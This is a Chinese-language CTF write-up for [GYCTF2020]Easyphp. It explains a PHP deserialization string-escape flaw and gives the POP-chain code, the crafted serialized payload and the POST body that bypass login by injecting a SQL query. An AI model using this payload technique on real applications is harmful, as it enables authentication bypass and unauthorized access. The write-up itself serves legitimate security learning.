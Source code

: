 # \[GYCTF2020]Easyphp

## \[GYCTF2020]Easyphp

## 考点

* 反序列化逃逸

## wp

www.zip给了源码

大概的逻辑就是index.php判断有没有登录，登录就转到update.php，没有登录就转到登录页面

在登录页面获取参数，并做黑名单过滤，然后执行`User::login()`

```
preg_match("/union|select|drop|delete|insert|\#|\%|\`|\@|\\\\/i", $_POST['***'])
```

在`User::login()`中连接数据库，然后用预编译的方式执行sql语句获取username和password，这里基本上封死了sql注入。如果登录成功就让`$_SESSION['login']`为1，然后跳转到update.php

```php
$mysqli=new dbCtrl();
$this->id=$mysqli->login('select id,password from user where username=?');

if($this->id)        $_SESSION['login']=1;
```

再看update.php，先判断`$_SESSION['login']`是否为1，不为1就\*\*`echo`**而不是**`die`\*\*。那后面的代码还可以执行啊。

![](<../../.gitbook/assets/image (19) (1) (1) (1) (1).png>)

然后到`User::update()`，先反序列化`Info`类再实例化`UpdateHelper`

```php
    public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;
    public function __construct($newInfo,$sql){
        $newInfo=unserialize($newInfo);
        $upDate=new dbCtrl();
    }
    public function __destruct()
    {
        echo $this->sql;
    }
}
```

```php
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname){
        $this->age=$age;
        $this->nickname=$nickname;
    }
    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
```

这里获取flag的条件是`$_SESSION['login']`为1

```php
if($_SESSION['login']===1){
  require_once("flag.php");
  echo $flag;
}
```

而`$_SESSION['login']`为1要求成功登录，即token为admin或者账号密码正确

```php
$mysqli=new dbCtrl();
$this->id=$mysqli->login('select id,password from user where username=?');
if($this->id){
$_SESSION['id']=$this->id;
$_SESSION['login']=1;}
class dbCtrl
{
    public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
}
```

从`User::update()`入手，它的第一行`$Info=unserialize($this->getNewinfo());`如下，一个典型的逃逸

```php
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
unserialize(safe(serialize(new Info($age,$nickname))));
```

可以利用逃逸，插入UpdateHelper类，触发它的`__destruct()`函数，再去触发User类的`__toString()`，最后触发Info类的`__call()`，让它执行`dbCtrl::login()`，这样就能够控制sql语句，实现登录了

pop链

```php
<?php
class dbCtrl{}
$d = new dbCtrl();
$d->name = "admin";// admin这个用户名是存在的，可以试出来
$d->password = "1";// 与select语句中的密码保持一致，绕过登录

class Info{}
$c = new Info();
$c->CtrlCase = $d;

class User{}
$b = new User();
$b->nickname = $c;
$b->age = 'select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?';

class UpdateHelper{}
$a = new UpdateHelper();
$a->sql = $b;

echo serialize($a);
// O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}
```

逃逸插入pop链，不断调整`*`或者`union`的数量，让插入pop链的结果符合反序列化条件

```php
<?php
class Info{}
$b = new Info();
$b->age = "123";
$b->nickname = '***************************************************unionunionunion";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}';


$s = serialize($b);
echo $s."<br>";

function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
echo safe($s)."<br>";
/*
O:4:"Info":2:{s:3:"age";s:3:"123";s:8:"nickname";s:324:"***************************************************unionunionunion";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}";}
O:4:"Info":2:{s:3:"age";s:3:"123";s:8:"nickname";s:324:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}";}
*/
```

在update.php中POST

```
age=123&nickname=***************************************************unionunionunion";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}
```

![](<../../.gitbook/assets/image (26) (1) (1) (1).png>)

这会让`dbCtrl::login()`成功执行，把token赋值为admin。

```php
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
```

再用admin加上任意密码登录即可

![](<../../.gitbook/assets/image (2) (1).png>)
